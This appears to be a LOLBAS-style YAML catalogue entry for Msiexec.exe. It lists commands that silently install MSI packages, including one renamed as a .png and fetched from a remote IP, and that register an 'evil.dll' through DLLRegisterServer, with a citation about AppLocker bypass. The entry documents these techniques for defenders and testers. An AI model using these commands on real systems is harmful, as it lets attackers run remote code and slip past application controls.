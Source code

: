```yaml
---
Name: Msiexec.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to register the target DLL.
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to un-register the target DLL.
Full Path:
  - c:\windows\system32\msiexec.exe
  - c:\windows\sysWOW64\msiexec.exe
Code Sample: []
Detection: []
Resources:
  - https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - https://twitter.com/PhilipTsukerman/status/992021361106268161
Notes: Thanks to ? - @netbiosX, PhilipTsukerman - @PhilipTsukerman
---
```

